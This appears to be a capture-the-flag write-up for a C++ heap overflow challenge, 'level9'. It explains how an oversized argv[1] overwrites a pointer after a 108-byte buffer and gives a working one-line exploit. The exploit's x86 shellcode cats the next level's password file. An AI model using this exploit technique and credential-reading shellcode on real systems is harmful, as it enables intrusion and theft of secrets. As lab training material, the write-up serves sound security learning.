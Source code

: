 # level9 

This one is a little different because it's written in C++. 

Ghidra wasn't much help except for hinting us that there's is a allocation of 108 bytes. 
We understand that we have a class N with a particular method : `setAnnotation`. This function performs `memcpy` from argv[1] to the buffer.  

By reading assembly, we notice that there's a function pointer in `edx` at the end of main and that `edx` comes from double dereferencing of `eax` just after the call to this method. 
If argv[1] is longer than 108 bytes, `eax` will be overwritten. 
So we need to create a double pointer that will ultimately point to our shellcode. Here is a visualisation of the memory.

```
|------------| <- 0x0804a00c
|            |
| shell code |
|            |
|------------|
|            |
|  padding   |
|            |
|------------| <- 0x0804a074
| 0x0804a00c |
|------------|
| 0x0804a074 |
|------------|

```

For the shellcode, we'll use the same as level2; we just need to change level3 to bonus0. As a treat we also replace the strings from hexadecimal to ascii. 

```bash
./level9 $(python -c 'print("\x31\xd2\x31\xc0\x52\x68pass\x680//.\x68onus\x68er/b\x68e/us\x68/hom\x89\xe1\x50\x68/cat\x68/bin\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * (104 - 59) + "\x08\x04\xa0\x0c"[::-1]) + "\x08\x04\xa0\x74"[::-1]')
```

And it cats our flag :D 
